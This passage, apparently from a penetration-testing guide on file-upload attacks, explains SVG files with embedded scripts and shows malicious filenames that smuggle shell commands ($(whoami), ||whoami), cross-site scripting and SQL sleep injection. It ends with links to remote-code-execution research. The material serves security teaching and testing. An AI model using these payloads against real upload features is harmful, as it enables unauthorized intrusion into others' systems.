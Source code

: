 **Embedding in SVG Files**
- If SVG files are allowed and not sanitized, the JavaScript inside `<script>` tags will execute upon rendering the file in the browser.
- Example: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```

### Injection in Filename
**Command Injection**
- If the application directly passes the uploaded filename into OS commands (e.g., `mv`, `cp`), this could lead to command injection. Example:
	- `file$(whoami).jpg` or ``file`whoami`.jpg``: The filename injects the `whoami` command, which would execute when the application attempts to use it in an OS command.
	- `file.jpg||whoami`: By using shell metacharacters (e.g., `||`), attackers may append additional commands to the original one.
	- For instance, `mv file$(whoami).jpg /tmp`.

**Cross-Site Scripting (XSS)**
- This approach works particularly well if the web application allows users to preview their uploaded files. If the filename is used in an `img` or other HTML tag attribute, the payload could execute on the victim’s browser.. Example:
	- `<script>alert(window.origin);</script>.jpg`: If uploaded and displayed without sanitization, this payload could lead to client-side JavaScript execution on any page where the filename is rendered.

**SQL Injection**
- If the filename is used in a SQL query without sanitization, this could delay query execution or even extract data, depending on the database configuration and context. Example:
	- `file';select+sleep(5);--.jpg`: Injecting this filename could delay or affect database queries if processed insecurely.

---
# What's next?
- [Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!](https://devco.re/blog/2024/08/09/confusion-attacks-exploiting-hidden-semantic-ambiguity-in-apache-http-server-en/)
- [Iconv, set the charset to RCE exploiting glibc to hack the PHP engine - Charles Fox](https://www.youtube.com/watch?v=11Yv2Ru7gF8)
- [The X-Correlation between Frans & RCE - Research Drop](https://blog.criticalthinkingpodcast.io/p/hackernotes-ep86-xcorrelation-frans-rce-research-drop)
- [Ghosts of the Past - Classic PHP RCE Bugs in Trend Micro Enterprise Offerings](https://github.com/star-sg/Presentations/blob/main/HITCON%202023/Ghosts%20of%20the%20Past%20-%20Classic%20PHP%20RCE%20Bugs%20in%20Trend%20Micro%20Enterprise%20Offerings.pdf)
- [WordPress GiveWP POP to RCE (CVE-2024-5932)](https://www.rcesecurity.com/2024/08/wordpress-givewp-pop-to-rce-cve-2024-5932/)
- [PHP filters chain: What is it and how to use it](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)
- [PHP filter chains: file read from error-based oracle](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)
- [Persistent PHP payloads in PNGs: How to inject PHP code in an image – and keep it there !](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there)
- [Back to School - Exploiting a Remote Code Execution Vulnerability in Moodle](https://blog.redteam-pentesting.de/2024/moodle-rce/)
- [Chasing a Dream :: Pre-authenticated Remote Code Execution in Dedecms](https://srcincite.io/blog/2021/09/30/chasing-a-dream-pwning-the-biggest-cms-in-china.html)
- [Out of Hand :: Attacks Against PHP Environments](https://srcincite.io/assets/out-of-hand-attacks-against-php-environments.pdf)